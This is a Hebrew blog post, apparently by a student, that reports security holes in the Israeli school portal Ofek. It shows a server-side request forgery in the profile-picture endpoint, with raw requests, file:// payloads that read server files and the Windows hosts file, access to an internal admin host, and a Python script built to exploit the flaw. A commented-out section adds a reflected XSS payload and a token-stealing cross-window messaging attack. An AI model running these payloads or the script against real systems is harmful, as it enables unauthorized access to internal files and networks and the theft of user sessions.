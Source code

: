 ```yaml
---
layout: post
title: פעם שלישית גלידה, SSRF באופק
tags: [web, xss, information disclosure, unauthorized access]
---
```


מידי פעם יוצא לי לחזור ולהעיף מבט על מערכת האתר אופק, הפעם קיבלתי משימה בבילוגיה והחלטתי שהדרך הטובה ביותר לעשות אותה היא לא לעשות אותה בכלל אלא להסתכל על איזורים שונים באתר.

### SSRF - גישה למשאבים לוקליים:

החלטתי לבדוק את המערכת להחלפת תמונת פרופיל:

<!--more-->

![]({{ site.baseurl }}/assets/ofek3-images/change-profile-picture.png)

לאחר שבחרתי את קובץ התמונה שברצוני להעלאות כתמונת פרופיל, הבחנתי בשתי בקשות אשר נשלחו לשרת מן הדפדפן:


![]({{ site.baseurl }}/assets/ofek3-images/networktools-2req.png)

1. הבקשה הראשונה אחראית על העלאת הקובץ לשרת ובמידה והעלאה בוצעה בהצלחה יחזיר השרת כתגובה את כתובת התמונה

2. הבקשה השנייה דוגאת לכך שתמונת הפרופיל של המשתמש תהיה תמונת הפרופיל שהעלנו על ידי שימוש בכתובת התמונה שהתשובה לבקשה הקודמת סיפקה לנו.

הבעיה במערכת היא היישום של פעילות הבקשה השנייה, במקום לשמור את כתובת התמונה ככתובת לתמונת הפרופיל השרת מוריד את התמונה מהכתובת שסיפקנו ויוצר כתובת חדשה לקובץ.

נשלח בקשה לשמירת תמונת פרופיל מהכתובת `http://httpbin.org/get` על מנת לבדוק מה תהיה תגובת השרת:

```http
POST https://ebag.cet.ac.il/api/users/setUserAvatarUrl HTTP/1.1

{"token":"SESSION_TOKEN","avatarUrl":"http://httpbin.org/get"}
```

```http
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8

{"value":"http://mybag.ebag.cet.ac.il/Common/UserForms/PersonalDetails/GetAvatarImage.ashx?gAvatarID=211996fd-5c0a-4ca6-bd4c-bba30d117313","ok":true,"code":0,"description":""}
```

כמו שניתן לראות, אנו מקבלים בתגובה תוכן בפורמט json המכיל כתובת url (תחת המפתח `value`), כתובת זו היא  הכתובת החדשה לתמונה (לאחר שהשרת הוריד את התוכן מהכתובת שסיפקנו), במקרה הנוכחי, החלטתי לבקש מהשרת לפנות אל הכתובת `http://httpbin.org/get` ולנסות להוריד את התוכן שהאתר מספק, הפעולה עבדה והשרת החזיר לי את הכתובת הבאה:

```
http://mybag.ebag.cet.ac.il/Common/UserForms/PersonalDetails/GetAvatarImage.ashx?gAvatarID=211996fd-5c0a-4ca6-bd4c-bba30d117313
```

כאשר בדקתי את תוכן הכתובת ראיתי כי התוכן אכן תואם לתוכן של האתר הנבחר, פה הבנתי שניתנת לנו האופציה לשלוח בקשות מן השרת לשירותים אחרים ברשת ולקרוא את התוכן המוחזר.

![]({{ site.baseurl }}/assets/ofek3-images/echoback-ssrf.png)

אחרי ששיחקתי קצת עם הבקשות, החלטתי לנסות לקרוא קבצים פנימים על ידי שימוש ב `file scheme`.

נשאלת השאלה איך אני יודע מה הנתיב של הקבצים בשרת ? בפוסט הקודם בו הצגתי בעיות אבטחה באתר ניתן לראות שהגעתי למצב בו הנתיב המלא של קובץ מסויים בשרת נפלט לדפדפן בעת שגיאה:

![]({{ site.baseurl }}/assets/ofek3-images/old-post-path.png)

ניסתי לשלוח בקשה אל הכתובת הבאה כפי שמוצג בתמונה:


```
file:///d:/Inetpub/websites/Assets.API/filesUpload.ashx
```

וכתגובה קיבלתי את תוכן הקובץ, מעולה ! עכשיו אני יודע שניתן לקרוא קבצים פנימים, 

![]({{ site.baseurl }}/assets/ofek3-images/filesUpload-screenshot.png)

החלטתי לנסות לגשת אל קובץ ה hosts (נמצא תמיד בנתיב קבוע)

```
file:///C:/windows/System32/Drivers/etc/hosts
```

![]({{ site.baseurl }}/assets/ofek3-images/hosts-file-ssrf.jpg)

אחרי שקיבלתי את התוכן של הקובץ ניסתי לגשת אל שרת ברשת הפנימית (שכתובתו הוצגה בנתוני קובץ ה host)

```
http://cetrepository.prod.local/jobs
```

הצלחתי ! הגעתי לפאנל ניהול כלשהו, לצערי פעולות הניהול מאופשרות על ידי שימוש בבקשות `POST` שאיני יכול לבצע ולכן לא הייתה באפשרותי דרך להתקדם

![]({{ site.baseurl }}/assets/ofek3-images/local-service-screenshot.png)

במהלך הבדיקה כתבתי סקריפט קטן שיאפשר לי לבדוק את המערכת בקלות

```python
import requests


class OfekUser:
    BASE_URL = 'https://ebag.cet.ac.il/api/users'

    def __init__(self):
        self.token = None

    def login(self, username, password):
        r = requests.post(f'{self.BASE_URL}/authenticateUser', json={
            'username': username,
            'password': password
        })

        data = r.json().get('value')

        if data:
            self.token = data['user']['token']
            return True

        return False

    def ssrf_req(self, path):
        r = requests.post(f'{self.BASE_URL}/setUserAvatarUrl', json={
            'avatarUrl': path,
            'token': self.token
        })

        file_url = r.json().get('value')

        if file_url:
            return requests.get(file_url).text


user = OfekUser()

if user.login('USERNAME', 'PASSOWRD'):
    print(user.ssrf_req('file:///d:/Inetpub/websites/Assets.API/filesUpload.ashx'))
```

{% comment %}

### reflected xss:

במהלך הבדיקה הראשונה הגעתי לתוכן הקובץ `filesUpload.ashx` וראיתי את קטע הקוד הבא:

```csharp
var callbackID = context.Request["callbackid"];

...
    
var messageHeader = "file-upload";
if (!string.IsNullOrEmpty(callbackID))
{
  messageHeader += "{" + callbackID + "}:";
}

...

var html =
   "<!DOCTYPE html> " +
   "<html xmlns='http://www.w3.org/1999/xhtml'> " +
   "<head> " +
   "  <title></title> " +
   "</head> " +
   "<body> " +
   "  <script> " +
   "    window.parent.postMessage('" + messageHeader + "$$$', '*'); " +
   "  </script> " +
   "</body> " +
   "</html> ";
var output = html.Replace("$$$", json.ToString());
context.Response.Write(output);
```

תוכן המשתנה `messageHeader` מכיל את הערך של `callbackid` - פרמטר שערכו נקבע על ידי המשתמש, בקטע קוד זה אנו רואים כי השרת עוטף את הערך שלנו ב `{}:` ומכניס אותו לתוך גוף התשובה, תחת `script` 

```javascript
// https://api.assets.cet.ac.il/filesUpload.ashx?callbackid=Hello World

window.parent.postMessage('file-upload{Hello World}:{"files":[]}', '*');
```

בהתחשב לכך שלא קיים סינון תווים אנו יכולים להזריק קוד בעזרת הפרמטר המוחזר לדף, נוכל לבצע מניפולציה פשוטה ולגרום להרצת קוד על ידי:

```javascript
// https://api.assets.cet.ac.il/filesUpload.ashx?callbackid='-alert('xss')-'

window.parent.postMessage('file-upload{'-alert('xss')-'}:{"files":[]}', '*');
```

![]({{ site.baseurl }}/assets/ofek3-images/simplexss.png)

* אין תלות בממצא הראשון פשוט יצא לי להגיע אל הבעיה כשראיתי את דרך היישום כשחיפשתי חולשות במנגון העלאת הקבצים

### חטיפת משתמש על ידי ניצול של "cross window messaging":

כאשר נכנסים לאתר מתבצעת טעינה דינמית של הכתובת הבאה כ `iframe` על ידי הסקריפט [CetSso.js](https://ebag.cet.ac.il/CetSso.js)

```
https://ebag.cet.ac.il/SSOIframe.html
```

![]({{ site.baseurl }}/assets/ofek3-images/mainpage-iframe.png)

הסקריפט `CetSso.js` אשר רץ על האתר הנוכחי (דף הבית) מאפשר תקשורת בין הדף לבין העמוד אשר נמצא תחת ה `iframe` על ידי שימוש ב message event listener & postMessage. לאתר הנמצא ב `iframe` ישנן כמה אפשרויות מועילות, הוספת עוגיות, קריאת עוגיות וקבלת המידע על הסשין המחובר (כולל `token` ההזדהות).מכיוון שהשרת לא מחזיר    את ההדר `x-frame-options` שמונע מאיתנו לטעון את הiframe (במידה והוא מקונפג נכון) לאתר הזדוני שלנו אנו יכולים לבצע את התקשורת בעצמנו ולקרוא את הנתונים המבוקשים

* מימוש התקיפה (דוגמאות קוד) ניתן למצוא בחשבון ה [GitHub Gists](https://gist.github.com/avramit/514c9daf05e02ea198af29ac46ffc015) שלי

בנוסף קיים דף בעייתי נוסף ועל ידי שימוש בעיקרון זהה ניתן לקבל מידע על המשתמש המחובר

```
https://ebag.cet.ac.il/authentication.SSL.html
```
{% endcomment %}